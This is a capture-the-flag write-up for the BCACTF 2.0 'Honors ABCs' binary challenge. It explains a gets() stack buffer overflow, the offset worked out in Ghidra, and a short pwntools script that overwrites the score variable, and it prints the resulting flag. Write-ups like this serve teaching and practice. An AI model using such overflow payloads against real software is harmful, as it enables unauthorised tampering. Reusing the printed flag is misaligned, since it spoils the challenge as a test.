

# BCACTF 2.0 – Honors ABCs

* **Category:** Binex
* **Points:** 75
* **Author:** [Wesley V](https://github.com/retoxified)

## Challenge

> Here at BCA, we don't deal with normal classes. Everything is at the honors level or above! Let's start by learning about the alphabet.
>
> And by learning, we obviously mean testing. Don't cheat!

## Solution

The challenge page provides us with a [binary](Backup/honors-abcs) and the [C code](Backup/honors-abcs.c) it was compiled from.

Running the binary presents us with a single question quiz, which requires us to recite the alphabet.

In order to read our input, the [gets](https://man7.org/linux/man-pages/man3/gets.3.html) function is used, which comes with a "Never use this function" warning for a good reason, it performs no boundary checks and reads until a terminating newline or EOF is read. This means that we are free to overflow the buffer that the alphabet is being read into. 

The goal is to get a score greater than 100, as that will present us with the flag. Our only options appears to be causing a buffer overflow to occur, so that we can set the score to whatever value we like. In order to figure out how many characters I need to input before we get to the score variable, I decided to load the binary up in [Ghidra](https://ghidra-sre.org/), to look at the decompiled code.



As we can see in the decompiler output, our input alphabet is stored in local_58(rbp-0x50), and the score is stored in local_c(rbp-0x04), substracting the two gives us 0x4C or 76 characters. To prevent our custom score from being overwritten we have to ensure that the very first character of our input is not equal to "a", so that we break out of the scoring loop before any score is set.

So that brings us to the final solution which is 76 characters followed by our custom score.

The script I used to solve the challenge is as follows;
```python
from pwn import *

#p = process('honors-abcs')
p = remote('bin.bcactf.com', 49155)
p.sendline(b"z"*76 + p32(0x1337))

p.interactive()
```

This will eventually output the following;
```
Welcome to your first class at BCA: Honors-level ABCs.
Because we expect all our students to be perfect, I'm not going to teach you anything.
Instead, we're going to have a quiz!
And, of course, I expect all of you to know the material already.

╔════════════════════════╗
║ THE QUIZ               ║
║                        ║
║ 1) Recite the alphabet ║
╚════════════════════════╝

Answer for 1: How did you end up here?
You must have cheated!
Let me recite the BCA plagarism policy.

...

also also have the flag!
bcactf{now_i_know_my_A_B_Cs!!_next_time_wont_you_cheat_with_me??}

Alright, class dismissed!
```

So the flag for this challenge is:

`bcactf{now_i_know_my_A_B_Cs!!_next_time_wont_you_cheat_with_me??}`